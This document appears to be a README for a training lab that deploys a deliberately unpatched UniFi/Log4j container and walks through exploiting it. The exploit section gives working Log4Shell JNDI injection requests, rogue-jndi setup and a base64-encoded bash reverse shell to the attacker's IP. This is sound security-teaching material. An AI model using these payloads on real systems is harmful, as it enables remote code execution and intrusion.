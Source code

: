 # Log4j

The folder `scenarios/log4j` holds the files related to the Log4j vulnerable scenario.

To understand what the Log4j vulnerability involves, the following resources where explored:

- **Cloudflare**
  - https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/
  - https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
  - https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/
- **LunaSec**
  - https://www.lunasec.io/docs/blog/log4j-zero-day/
- **LiveOverflow**
  - https://www.youtube.com/watch?v=kvREvOvSWt4
- **John Hammond:**
  - https://www.youtube.com/watch?v=7qoPDq41xhQ
- **TryHackMe**
  - https://tryhackme.com/room/solar#
  - https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
  - https://www.youtube.com/watch?v=lJeAgQQaDEw (Shows how to update shell to Meterpreter)
- **SnykLearn**
  - https://learn.snyk.io/lessons/log4shell/java/
- **Reddit (Large Resource)**
	- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## GitHub-Related References

- **GitHub**
  - Log4j Obfuscating Strings: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
  - Log4j POC: 
  - https://github.com/cyberxml/log4j-poc
  - https://github.com/kozmer/log4j-shell-poc
  - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  - Log4j Vulnerable App: https://github.com/christophetd/log4shell-vulnerable-app
  - YARA rules (DETECTION): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
  - Unifi: https://github.com/puzzlepeaches/Log4jUnifi
  - MarshalSec (Malicious LDAP): https://github.com/puzzlepeaches/Log4jUnifi

This scenario is based in the Tier 2 HackTheBox [Unified](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) challenge and in the [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

To reproduce a vulnerable version of Unifi Network Application the Docker container used was adapted from [goofball/unifi](https://github.com/goofball222/unifi). The version used (which can be also customized) is `6.4.54`. 

Typically, most of the Docker images present in this source were patched against Log4j, for instance, through the `JVM_EXTRA_OPTS=-Dlog4j2.formatMsgNoLookups=true` environment variable present in the respective Dockerfile. This disables variable lookups while in the Log4j logging tool that is vulnerable, meaning the final attack is unsuccessful.

After finding this was an issue to our vulnerable scenario, this option was removed from the Dockerfile. It's also important to notice that this Dockerfile is also built with a MongoDB database that supports the UniFi Network Application and where users are saved, according to [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

> Deployment of the scenario was automated using Ansible. This may suffer changes in the future.

## Other Important Aspects During Setup

Initially, when acessing the UniFi Application Network web interface, the HTTPS connection was not secure because the presented certificate in the TLS connection wasn't signed by a trusted CA. To overcome this issue, we created a CA, as in the `ca/` folder. 

To achieve this, the commands in `ca/cmds.sh` were issued:

```bash
# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
```

> Notice also the need of the `openssl.cnf`, `serial`, `demoCA/`, and `index.txt` files/folders.

Afterwards, the private key of the issued certificate without password protection (`server_nopass.key`) was coppied into the `unifi-certs/` folder (this file was named **privkey.pem**), which is were our Docker bind mount is located. This is were UniFi fetches its SSL certificates.

*We've forced UniFi to always fetch the SSL certificates on every run, as this wasn't happening on every run, by default. This changes were enforced in the `entrypoint-functions.sh` file*. 

Then, regarding the **fullchain.pem**, we simply used:

```bash
cat server.crt ca.crt > fullchain.pem
```

Notice, there is a need to only include certificate information inside this file. No extra information should be present. The final format should be something like:

```
-----BEGIN (SERVER) CERTIFICATE-----
#######################################
-----END (SERVER) CERTIFICATE-----
-----BEGIN (CA) CERTIFICATE-----
#######################################
-----END (CA) CERTIFICATE-----
```

Then, there was the need of include our CA public-key certificte by default on the attacker's kali machine, so that when they visited the UniFi Network Application web interface, the page would appear as safe. This was accomplished using the `policies.json` file in the `setup/` folder, where all the setup files (using Jinja2 templates) are present. The CA was defined as trusted also system-wide. The `entrypoint.sh` is the one that is triggered at the end and uses all the others.

Furthermore, a Selenium script, `setup/setup.py` was developed, being its main purpose complete the setup Wizard that appears on every start-up of the UniFi web interface. It creates an administrator user as specified in the credentials of the `all.yml` Ansible file. The `setup/requirements.txt` file holds the respective dependencies for the Selenium script to run.

# Exploit

Initially, I tried running exploits related to [TryHackMe Solr](https://tryhackme.com/room/solar#) but due to the Java version used by UniFi, it didn't work. It used [marshelsec](https://github.com/mbechler/marshalsec), a malicious LDAP server that redirected the LDAP request to a simple HTTP server that holded a malicious Java payload.

Therefore, the solution presented in [SprocketSecurity](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) was taken into consideration.

First, we test if the Log4j vulnerability indeed exists. We can also visit the UniFi Network Applicaiton at `https://example-domain.ui.com:8443`.

In the attacker's machine we run `nc -lnvp 9999` and in another terminal we can run:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:9999/whatever}","strict":true}'
```

> 172.135.0.2 is the attacker machine's IP address. Notice the "remember" parameter as the one vulnerable to the Log4j attack.

If we receive a connection in `nc` we know the application is vulnerable to Log4j, which indeed is.

Then, by doing: 

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We are using [rogue-jndi](https://github.com/veracode-research/rogue-jndi), a malicious LDAP application that also creates an HTTP server that will inject the payload.

We then generate our payload which is:

```bash
echo 'bash -c bash -i >&/dev/tcp/172.135.0.2/4444 0>&1' | base64
```

We setup our netcat listener using `nc -lnvp 4444` and then we run:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjEzNS4wLjIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.135.0.2"
```

By running:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:1389/o=tomcat}","strict":true}'
```

In our netcat listener we then obtain a Reverse Shell with access to the victim machine.

> ***The SprocketSecurity post dives deeper on lateral movement which can also be interesting.***

> This [GitHub repository](https://github.com/puzzlepeaches/Log4jUnifi) specifies the same attack on an automated way using a python script.

> There is also the possibility of upgrade to a better shell.